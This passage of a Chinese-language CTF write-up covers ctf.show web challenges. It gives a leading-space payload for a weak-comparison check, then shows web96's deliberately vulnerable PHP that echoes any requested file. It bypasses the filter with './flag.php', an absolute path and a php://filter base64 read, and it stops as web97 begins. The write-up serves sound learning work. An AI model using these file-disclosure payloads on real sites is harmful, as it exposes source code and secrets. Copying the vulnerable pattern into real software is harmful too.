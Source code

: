 这题和上一题的区别就是改为了弱判定

所以上一题的方法二就用不了了，我们用方法一即可

payload:

```
?num=%20010574
```

#### web96

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:21:24
# @link: https://ctfer.com

*/


highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

我们知道./指的的是当前目录，所以直接用./绕过即可，不影响文件读取

payload:

```
?u=./flag.php
```

or

```
u=/var/www/html/flag.php
?u=php://filter/read=convert.base64-encode/resource=flag.php
```

#### web97

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:36:32
# @link: https://ctfer.com

*/

include("flag.php");
```